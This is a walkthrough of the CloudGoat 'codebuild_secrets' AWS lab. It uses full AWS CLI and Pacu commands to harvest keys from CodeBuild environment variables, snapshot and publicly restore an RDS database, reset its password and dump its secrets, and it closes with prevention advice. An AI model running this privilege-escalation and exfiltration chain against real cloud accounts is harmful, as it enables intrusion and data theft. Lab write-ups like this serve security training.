




---
According to the official documentation for this scenario ([here](https://github.com/RhinoSecurityLabs/cloudgoat/tree/master/scenarios/codebuild_secrets)) the overall goal is "a pair of secret strings that are stored in a secure RDS database."

Once the scenario creation process completes we are presented with a set of access keys for the user account 'solo'.

---

### Who are we?

First lets make sure the credentials we have obtained are valid. We can do this with the following command:

```bash
aws --profile solo sts get-caller-identity
```

we get the following successful response:


---

### What can we do?

Instead of heading to Pacu and using its handy enumeration lets do something that is a bit lighter on the logs and just poke around a bit. Perhaps we have access to make s3 calls, lets run `s3 ls` and see what happens.


Interesting, it does seem like we can see a bucket in s3. Perhaps we can dig deeper and this bucket has something useful in it. After all, judging by its name it probably has some sort of logs and probably other things and stuff in it. We can do this by running:

```
aws --profile solo s3 ls logaboutlogsthingsandstuff34343434
```


Unfortunatly it looks like it errors out with a permission denied error. Lets continue on our path of manual enumeration. This time we will branch over into ec2's. Why ec2's, and why did we try s3 first? No real reason, other than to hit services that are fairly common, and that a vast majority of identities have access to.

To enumerate the ec2's we will use the describe call:

```bash
aws --profile solo ec2 describe-instances |jq '.Reservations[].Instances[] | {InstanceId,PublicDnsName,PublicIpAddress,SubnetId,SecurityGroups,IamInstanceProfile}'
```

This produces the output below, showing us an active ec2 with a public ip address.


Interesting, lets see if we can dig a bit deeper into the security group that is attached with the name: `cg-ec2-ssh-cgidg25jfhzv9a`. Chances are that it only allows ssh since its in the name, but who knows a lazy admin could have added other ports to the security group for quick access. We can get the security group details with:

```bash
aws --profile solo ec2 describe-security-groups --group-ids sg-09f30e4f217cd294a --region us-east-1 | jq '.SecurityGroups[] | .IpPermissions[]'
```

As expected, the only port allowed with this security gorup is `TCP/22`.


---

### Additional Service Enumeration
We now know we cannot see anything useful in S3 and there is not much to do with the Ec2. We could pivot and attempt to log into the SSH. That however, is beyond the scope of this assessment. The great thing about AWS is there are several other services we can enumerate. These keys we have were created for a reason. Up to this point we really have not discovered that reason. MORE enumeration!

For this next part we will switch over to Pacu and let it handle some of the additional enumeration for us. There are several services that are not included in Pacu that these keys could be used for, but sometimes its nice to let tools live up to there purpose. Looking at the picture below we can see Pacu has several options within the ENUM category:



Some of these we have lightly touched. Perhaps we have rights to Lambda? Lets see what happens if we try the `lambda__enum`.

```bash
run lambda__enum --region us-east-1
```

**Note: In the command above I specify the us-east-1 region, this is because I know us-east-1 is only region in my account where workloads are being placed. If you do not know where the workloads exist, you will have to enumerate each region.*


Once again, brick wall. We are missing the required permissions. All of the other service enumerations return the same results except for one, codebuild.

---

### Codebuild Enum

```bash
run codebuild__enum
```


Success! The codebuild enumeration found 1 project and 2 environment variables. Neat! In Pacu we can run the `data` command to see the information it pulled from our enumeration efforts. Below is a snippet of the data:

```json
Pacu (code_build:solo) > data

CodeBuild: {
 "EnvironmentVariables": [
  {
   "name": "calrissian-aws-access-key",
   "value": "AKIA5X73KRQWNCPL",
   "type": "PLAINTEXT"
  },
  {
   "name": "calrissian-aws-secret-key",
   "value": "nG3Wtl86vXcDp90JUx9smFriCoFk0",
   "type": "PLAINTEXT"
  }
 ],
 "Projects": [
 {
  "name": "cg-codebuild-cgidg25jfhzv9a",
  "arn": "arn:aws:codebuild:us-east-1:1111111111111:project/cg-codebuild-cgidg25jfhzv9a",
  "source": {
   "type": "NO_SOURCE",
   "buildspec": "version: 0.2\n\nphases:\n pre_build:\n commands:\n - echo \"This is CloudGoat's simpliest buildspec file ever (maybe)\""
   },
   "artifacts": {
    "type": "NO_ARTIFACTS"
    },
   "cache": {
    "type": "NO_CACHE"
  },
  "environment": {
   "type": "LINUX_CONTAINER",
   "image": "aws/codebuild/standard:1.0",
   "computeType": "BUILD_GENERAL1_SMALL",
   "environmentVariables": [
   {
    "name": "calrissian-aws-access-key",
    "value": "AKIA5X73KRQWNCPL",
    "type": "PLAINTEXT"
   },
   {
    "name": "calrissian-aws-secret-key",
    "value": "nG3Wtl86vXcDp90JUx9smFriCoFk0",
    "type": "PLAINTEXT"
   }
  ]
 },
```

Looking at the output we have a container image, and in the build it sets a couple of environment variables:

```json
  {
   "name": "calrissian-aws-access-key",
   "value": "AKIA5X73KRQWNCPL",
   "type": "PLAINTEXT"
  },
  {
   "name": "calrissian-aws-secret-key",
   "value": "nG3Wtl86vXcDp90JUx9smFriCoFk0",
   "type": "PLAINTEXT"
  }
```
Awesome, we have another set of keys. These keys seem to be for a user name Calrissian. It seems like this organization has a fondness for Star Trek.

---

### Codebuild Manual Enumeration

Before we dig into the Calrissian user, lets take a step back and re run this codebuild enumeration using the aws cli. We start buy querying aws for a list of every project.

```bash
aws --profile solo codebuild list-projects
```

This produces the name of the project `cg-codebuild-cgidg25jfhzv9a`


Now that we have the project name we can query aws for the details about the project with:

```bash
aws --profile solo codebuild batch-get-projects --names cg-codebuild-cgidg25jfhzv9a
```

This dumps all of the details about the project. Cleaning the request up a little bit with jq:

```bash
aws --profile solo codebuild batch-get-projects --names cg-codebuild-cgidg25jfhzv9a |jq '.projects[].environment.environmentVariables[]'
```

We get the clean output below.


---

### Calrissian

It's time to find out what permissions we have as the Calrissian user. First we will make sure the credentials work by running `get-caller-identity`.

```bash
aws --profile cal sts get-caller-identity
```



We have confirmed the credentials are still valid. Now we need to start the enumeration process over again. We can start just like last time and see if we have access to s3.

```bash
aws --profile cal s3 ls
```


Unfortunatly, just like the solo user we do not have access to s3. In fact judging by this error we have even less permission to s3 now than we did with solo. Solo had a policy action to describe-buckets, and we do not.

Attempting to describe instances returns a similar error that we are unauthorized.


After lots of additional enumeration (and remembering the goal is to access an RDS database) we finally come across an area of aws where we have permissions, RDS. We can determine this and learn details about the environment with the following command:

```bash
aws --profile cal rds describe-db-instances |jq '.DBInstances[]'
```

All kinds of useful information is returned as we can see in the screenshot below:


From the details in the screenshot we can determine the type of database, its DNS name, port its listening on, the security group it is a part of, and subnet information.

- Instance Identifer: cg-rds-instance-cgidg25jfhzv9a
- Engine: postgres
- Endpoint: cg-rds-instance-cgidg25jfhzv9a.cq9megh2xpgg.us-east-1.rds.amazonaws.com
- Port: 5432
- Security Group: sg-096bb9f39aaa9334d
- Subnets: subnet-029ccc8e6ee777916, subnet-054c36278fc5a0b5c

Lets see if we can connect. We still do not have a password, but if we can connect, we can try and work around that. We know the database is a postgres server so we can use the following command to attempt a connection:

```bash
psql -h cg-rds-instance-cgidg25jfhzv9a.cq9megh2xpgg.us-east-1.rds.amazonaws.com -p 5432
```

That does not seem to work, it just hangs for a couple of minutes, the psql app is probably trying to connect/reconnect before timing out. Lets confirm that the RDS instance is listening on 5432 and that we have access to it. We can do this with:

```bash
nmap -Pn -p5432 cg-rds-instance-cgidg25jfhzv9a.cq9megh2xpgg.us-east-1.rds.amazonaws.com
```

Looking at the nmap output, it appears that the RDS instance is not configured in a way that we have access to it.

```bash
5432/tcp filtered postgresql
```

At this point we know we have access to make RDS calls. We do not know what our limits are but perhaps we have additional rights. There are a few different paths we could take at this point:

1. We can attempt to take our DB public with modify-db-subnet-group, and then attempt to modify the instance to set a password
2. We can attempt to take a snapshot and then share the snapshot with an account we control
3. We can attempt to snapshot the instance, and create a public version that we control

The issue with option 1 is that we have no idea what this might break. It could cause the entire app stack which leverages this DB to crash. As soon as that happens someone will start to dig into why did it crash and inevitably start asking questions about why the DB suddenly changed subnets. Option 2 is a valid and viable option, but in this scenario not necessary. We will move ahead with option 3.
Back to enumeration! Lets see if we can gain some insight into the subnets, and security groups.

```bash
aws --profile cal rds describe-db-subnet-groups |jq
```

Looking at the output from the command above we see all of the subnets that rds has access to. The two subnets associated with the instance we discovered earlier are a part of a group which has the description: `CloudGoat cgidg25jfhzv9a Subnet Group`. There does appear to be another subnet group called: `cloud-goat-rds-testing-subnet-group-cgidg25jfhzv9a` and has a description of `CloudGoat cgidg25jfhzv9a Subnet Group ONLY for Testing with Public Subnets`. Perhaps we could use this group to grant public access to an instance.

Next we should see if there is a security group that would allow us to access the RDS instance. We can use the following command:

```bash
aws --profile cal ec2 describe-security-groups |jq
```

The output from the command above reveals that the group sg-096bb9f39aaa9334d is a security group that allows access to the postgres port. Screenshot is below.



---

### Our own DB
At this point we know we have a subnet, and a security group that we can apply to an RDS instance that should grant us the access we are looking for. The next thing we should do is see if we have rights to create a snapshot.

```bash
aws --profile cal rds create-db-snapshot --db-instance-identifier cg-rds-instance-cgidg25jfhzv9a --db-snapshot-identifier yogi-db-snap
```

After running the command above we get an output that shows us that the command was successful, and that the current status is creating.


Before we can restore our snapshot to an RDS instance that we control the snapshot needs to be completed. We can check that by using the describe-db-snapshots command.

```bash
aws --profile cal rds describe-db-snapshots --db-snapshot-identifier yogi-db-snap
```

After executing that command we get the output below, which tells us that we do not have permissions to check on the status of our db.


Hopefully, this is not a sign of things to come. Since we do not know if the snapshot is complete the only option we have is to wait until we think its done. After that we can attempt to restore it, and hopefully we will have enough permissions to do so.

To restore the database we need the following bits information that we discovered earlier:

- RDS Public Subnet Name: cloud-goat-rds-testing-subnet-group-cgidg25jfhzv9a
- VPC Security group that grants us access: sg-096bb9f39aaa9334d

We can use the information above and build the command below to start the build process:

```bash
aws --profile cal rds restore-db-instance-from-db-snapshot --db-instance-identifier yogidbinstance --db-snapshot-identifier yogi-db-snap --db-subnet-group-name cloud-goat-rds-testing-subnet-group-cgidg25jfhzv9a --publicly-accessible --vpc-security-group-ids sg-096bb9f39aaa9334d
```

The output should return something similar to the image below with the 'DBInstanceStatus' of creating



After a couple of minutes we can check the status of our creation with:

```bash
aws --profile cal rds describe-db-instances --db-instance-identifier yogidbinstance |jq '.DBInstances[] .DBInstanceStatus'
```

Once the output shows that the db is 'available' we can attemp to connect. The connection address was given to us when we ran the restore command above, but if you lost that we can get the information with the following command:

```bash
aws --profile cal rds describe-db-instances --db-instance-identifier yogidbinstance |jq '.DBInstances[] .Endpoint'
```


We can use psql to attempt a connection to the db host:

```bash
psql -h yogidbinstance.cq9megh2xpgg.us-east-1.rds.amazonaws.com -p 5432
```


Great, we have a connetion! Now we need to connect with the default cgadmin and the admin password. However, before we do that we need to set the password to something we know. To do that we need to run the modify-db-instance command:

```bash
aws --profile cal rds modify-db-instance --db-instance-identifier yogidbinstance --master-user-password yogibear
```

We will receive an output that shows:

```bash
"PendingModifiedValues": {
 "MasterUserPassword": "****"
},
```

Now lets try to connect to our RDS instance one more time.

```bash
psql postgresql://cgadmin@yogidbinstance.cq9megh2xpgg.us-east-1.rds.amazonaws.com:5432/postgres
```

We can list the databases with `\l`


Looking at the output, the securedb looks interesting. Lets connect to it, list the tables, and print it all to the screen.

```postgres
\c securedb
\dt
SELECT * FROM sensitive_information;
```


Awesome! We succesfull gained access to the secret information within the RDS database.

---

### Alternative Path

There is another way to gain access to the secrets held in the database. I have not worked through that path. Once I do I will update this document.

---

### Prevention
Where did the owner of this account go wrong? There are a few places where this attack could have be stopped. Lets dive into them.

1. Our initial access was through the solo user. Does that user need static keys? If they could be switched to temorary ephemeral keys it would greatly reduce the liklihood that if an attacker found the keys that they would still be valid.
2. Does solo need access to codebuild? Chances are they do, the permissions seemed to be fairly tightly scoped around that service. But if they do not, removing those capabilities would be good.
3. Within the codebuild project we came across keys for the calrissian user. Those keys should not exist within this project. Assuming the keys were placed there to grant the Linux container associated with this project access to RDS or other portions of AWS, there are better ways to do this. Assigning a role to the node where the container lives would be the best option. If the container does not live within aws, using a secrets manager is the next best thing.
4. The calrissian user seemed to have a mismash of permissions in RDS. If these permission are not all required they should be removed. Specifically the modify-db-instance, and create-db-snapshot permissions.

By fixing one of these things or all of them, it would have effected our ability to access the secret data within the database.

From a logging and alerting point of view, we probably made several commands that were not 'normal' for the solo and calrissian users to make. By alerting on this odd activity the response team could have detected us and shut the attack down. Additionally if there would have been a configuration management solution to monitor for RDS instances being made public and preventing it. It would have made our attack much more complicated.